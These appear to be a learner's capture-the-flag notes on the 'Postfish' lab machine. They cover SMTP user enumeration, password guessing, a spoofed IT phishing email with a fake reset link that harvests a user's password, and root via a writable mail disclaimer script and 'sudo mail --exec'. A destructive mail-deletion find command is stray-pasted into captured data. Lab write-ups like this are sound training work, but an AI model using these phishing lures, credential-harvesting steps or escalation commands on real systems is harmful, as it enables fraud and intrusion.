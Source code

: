 # Postfish Notes

## Data 

IP: 192.168.173.137
OS: Ubuntu Focal 20.04
Arch:
Hostname:
DNS:
Domain:  postfish.off/
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectivespostfish

`\#\# Target Map ![](Postfish-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks completed
      

redirect http://postfish.off/

What
```html
<p>Powered by <a href="[https://www.w3schools.com/w3css/default.asp](https://www.w3schools.com/w3css/default.asp)" target="_blank">w3.css</a></p>
```

team.html - Users
```
Claire Madison
Mike Ross
Brian Moore
Sarah Lorem
```


smtpuserenumwithpentestmonkey.png


checkerror.png

requiresphishing.png

Will be twinned with [[Attended-Helped-Through]], and other phishing boxes for phishing-for-2-weeks-24-7 banaza

Hydra to testing top 2000 on all four valid emails
2000krockyouonvalidemailsfailed.png

Got the write for this box as I have never done any phishing so I am bound not know a large amount of the considerations and methodology. At an initial glance of the Walkthrough - department emails 

departments.txt 
```
hr@postfish.off
it@postfish.off
sales@postfish.off
legal@postfish.off
```

```bash
smtp-user-enum -M RCPT -U departments.txt -t postfish.off
```

departmentemailsexist.png

user:password combos before brute force
```
hr:hr, it:it, sales:sales, and legal:legal
```

Read the emails like its a video game and you had read the email to progress...
emailreading.png

Check other services for password reuse - ssh password for sales is not sales

- Phishing
	- Can you impersonate the IT department or organisational authoritative account to get?
		- Passwords or password resets?
			- *Register for this new service - you just need to use you account details to finish the registration process and read Terms and Conditions*
			- *Due to recent an up tick in attempts against your account the IT department requires you to change you password to a great level of complexity...*
		- Intelligence?
			- Information additive to further phishing progress at a later stage - how will it fit or can it be frame to further impersonate an individual?

The Walk Through demonstrates a failed phishing campaign  by setting up a registration page then it progresses to spear-phishing Brian Moore. It then discusses manual approach to discovery of the organisational email formatting conventions. I already discovered those with `smtp-user-enum`

Sending Emails without [[SWAKS]]
```c
// connect
nc $address 25
// HELLO THERE
helo hacker
// response code
MAIL FROM: it@postfish.off 
// response code
RCPT TO: brian.moore@postfish.off // receipiant
// response code
DATA // Send some data !
// response code
Subject: Password Reset

Hey Brian,

Unfortunately we had a problem during our migration and we had to rebuild our database.
Please register at http://192.168.45.178/ and let us know if you encounter any problems.

Regards,
IT
.
// Make sure you use the a single `.` on the final line to close DATA 
// response code
QUIT // terminates sessions
```

Use `nc` not `python3 -m http.server` woops, but tanks to Brian and some URL decoding
thanksBrian.png

```
first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

cyberchefurldecode.png

`brian.moore : EternaLSunshinE`


wearebrian.png

There is no sudo privileges for Brian and there are four other users
nosudofourotherusers.png



Primarily box checks - we as well as we can read everyone else directories! 
boxchecks.png

saleshasmaildir.png

rootdir.pngwehi

routesfirewallsanddns.png

nonexistentandactualusers.png

My CTF instincts are press me for the second phish or great privileged user there is no script logging other in
checkifwemaybephishinganotheruser.png

But there are no crons
nocrons.png


unattendwhat.png

salesmail.png

www-baitwtf.png


disclaimerfile.png

rootsshbadmkay.png


nextlevelsomeday.png


pwnkitandpolkit.png


scriptseemslikeitspartofautomateprocess.png


Making sure to append Linux to the dorking the `man trap`  .. 
https://man7.org/linux/man-pages/man1/trap.1p.html

trapcmdonlinux.png

Running out of time I was on the correct track
```
find / -group filter 2>/dev/null
```

Added the shell because I stepped back after yesterday mind blank I did not want to fumble something so easy
addedshell.png
but I did not return a shell even though though root is running this every minute. Then I *The next time a user receives a message, the disclaimer script should be executed. Let's start a Netcat listener to receive the reverse shell.* 
- Always research the file and service provider. `disclaimer.sh` must have some check to run but no execute!...

pspylikeabrian.png


moreactiononpspy.png

No shell because the script gets reset!!

noshell.png

I god the mistake
violatingthescriptbecauseitsoverwritten.png


tomuchgoof.png


weareFILTER.png

We can use mail without a password and sudo
https://linux.die.net/man/1/mail

[Mail - GTFObin for sudo mail ]
```
sudo mail --exec='!/bin/sh'
```


root.png

The disclaimer reset script:
disclaimerscript.png

Poor Brian stood no chance with this root activity...
themailscripttoemailthepassword.png